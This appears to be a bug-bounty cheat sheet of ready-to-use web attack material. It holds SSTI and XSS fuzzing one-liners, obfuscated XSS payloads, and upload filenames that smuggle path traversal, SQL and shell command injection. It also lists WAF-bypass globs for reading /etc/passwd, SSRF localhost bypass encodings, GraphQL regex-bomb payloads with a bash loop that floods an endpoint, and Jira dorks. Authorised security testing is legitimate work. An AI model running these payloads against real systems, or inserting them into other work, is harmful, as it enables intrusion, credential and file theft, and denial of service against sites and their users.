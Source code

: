 # Bug Bounty Tips File -3
## SSTI to RCE oneliner check
```sh
 waybackurls http://target.com | qsreplace "abc{{9*9}}" > fuzz.txt
 ffuf -u FUZZ -w fuzz.txt -replay-proxy http://127.0.0.1:8080/
 ```
 ```sh
 waybackurls https://abc.com | grep '=' | qsreplace "abc{{9*9}}"  | httpx -match-regex 'abc81' -threads 300 -http-proxy http://127.0.0.1:8080/
 ```
search: abc81 in burpsuite search and check
## Chaining file uploads with other vulns:-
 Set filename to:- 
`../../../tmp/lol.png` for path traversals
`sleep(10)-- -.jpg` for SQLi.
`<svg onload=alert(document.comain)>.jpg/png` for xss
`; sleep 10;` for command injections
## Extract urls,srcs and hrefs from all HTML elements in any website
**Open DevTools and run**
```js
urls = []
$$('*').forEach(element => {
  urls.push(element.src)
  urls.push(element.href)
  urls.push(element.url)
}); console.log(...new Set(urls))
```
## XSS
### XSS Oneliner
```sh
gospider -a -s abc.com -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```
### XSS Payloads for short length inputs
```js
<script src=//⑮.₨></script>
```
### XSS Payloads
```js
 img{background-image:url('javascript:alert()')}
 <svg/onload=eval(atob('YWxlcnQoJ1hTUycp'))>
 TestPayload&lt;/a&gt;&lt;a href="javascript:alert(1)"&gt;ClickHere&lt;/a&gt; 
 ```
### Stored XSS Payloads
```js
<img src=`xx:xx`onerror=alert(1)>
<div/onmouseover='alert(1)'> style="x:">
\";alert('XSS');//
"autofocus/onfocus=alert(1)//
'-alert(1)-'
```
## WAF Bypass
***WAF restriction? Use these:***
 ```sh
 /etc/passwd 
/e?c/?asswd
/e*c/*asswd
/??c/?asswd
/??c/?assw?
```
## SSRF Localhost Access Bypass
```sh
0
127.00.1
127.0.01
0.00.0
0.0.00
127.1.0.1
127.10.1
127.1.01
0177.1
0177.0001.0001
0x0.0x0.0x0.0x0
0000.0000.0000.0000
0x7f.0x0.0x0.0x1
0177.0000.0000.0001
0177.0001.0000..0001
0x7f.0x1.0x0.0x1
0x7f.0x1.0x1
```
### When you are testing sharepoint applications check this file path that sometimes leads to directory listing:
```js
/_layouts/mobile/view.aspx
Google dork: /_layouts/mobile/view.aspx
```
## DOS GraphQl Endpoint
***Create DOS on GraphQl Endpoint by appending null characters by somehow***
You can reveal the bug inserting `"\u0000"` on search parameter, in order to display an error with part of the graph query.
** Example -1**
```graphql
query a { 
  search(q: "\u0000)", lang: "en") {
    _id
   weapon_id
    rarity
    collection{ _id name }
    collection_id  
 }
}
```
**Example -2** 
```graphql
query a { 
  search(q: "\u0000)", lang: "en") {
    _id
   weapon_id
    rarity
    collection{ _id name }
    collection_id  
 }
}
```
### Graphql Payload with Regex Bomb
```graphql
query a { 
  search(q: "[a-zA-Z0-9]+\\s?)+$|^([a-zA-Z0-9.'\\w\\W]+\\s?)+$\\", lang: "en") {
    _id
   weapon_id
    rarity
    collection{ _id name }
    collection_id 
 }
}
```
### Exploit Code
```sh
#!/bin/bash
RED='\033[0;31m'
Y='\033[0;33m'
NC='\033[0m' # No Color
printf  "${Y}================================================================\n"
printf  "${Y}====================${NC} EXECUTING THE PAYLOAD ON ${Y}=======================\n"
printf  "${NC}https://abc.com/graphql ${Y}========\n"
printf  "${Y}================================================================${NC}\n"
for i in {1..100}; do curl 'https://abc.com/graphql'  -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36' -H 'content-type: application/json' -H 'accept: */*'      --data-binary $'{"query":"query a { \\n  search(q: \\"[a-zA-Z0-9]+\\\\\\\\s?)+$|^([a-zA-Z0-9.\'\\\\\\\\w\\\\\\\\W]+\\\\\\\\s?)+$\\\\\\\\\\", lang: \\"en\\") {\\n    _id\\n   weapon_id\\n    rarity\\n    collection{ _id name }\\n    collection_id \\n \\n }\\n}","variables":null}' --compressed  & done

```
### Supporting Materials
> ***https://hackerone.com/reports/1000567***
---
## SSRF 
1. Create an account email@burp_collab*
2. Forgot password
3. Received requests from internal server + SMTP connection details
4. Got Internal headers + origin IP
5. https://abc.com/ = (403)
6. https://abc.com/dir = (Headers + Origin IP = pwn)
## Jira Dorks
```text
inurl:companyname intitle:JIRA login
inurl:visma intitle:JIRA login
```
